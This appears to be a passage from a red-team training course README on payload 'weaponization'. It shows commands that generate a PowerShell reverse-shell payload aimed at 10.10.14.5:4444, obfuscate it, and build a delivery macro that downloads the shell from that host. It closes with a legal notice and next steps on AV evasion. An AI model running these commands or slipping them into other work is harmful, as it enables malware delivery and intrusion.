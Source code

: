 
## Integration with Other Days

### Using Recon Data (Day 1-2)
```python
# Customize payloads based on target tech stack
if 'PowerShell 5.1' in tech_stack:
    generate_ps51_compatible_payload()
if 'Windows 10' in target_os:
    add_win10_specific_evasion()
```

### Preparing for Delivery (Day 4)
```bash
# Generate payload
python3 payload_generator.py 10.10.14.5 4444

# Obfuscate
python3 advanced_obfuscator.py payloads/shell.ps1

# Create macro for delivery
python3 macro_generator.py --url http://10.10.14.5/obfuscated_shell.ps1
```

---

## Legal and Ethical Notice

These tools create malicious payloads. Only use for:
- Authorized penetration testing
- Educational purposes in labs
- Improving defensive security

Never:
- Deploy without authorization
- Use for malicious purposes
- Share operational payloads
- Test on production systems without permission

---

## Next Steps

After weaponization:
1. Test payloads in lab environment
2. Verify evasion against target AV
3. Prepare delivery mechanism (Day 4)
4. Plan initial exploitation (Day 5)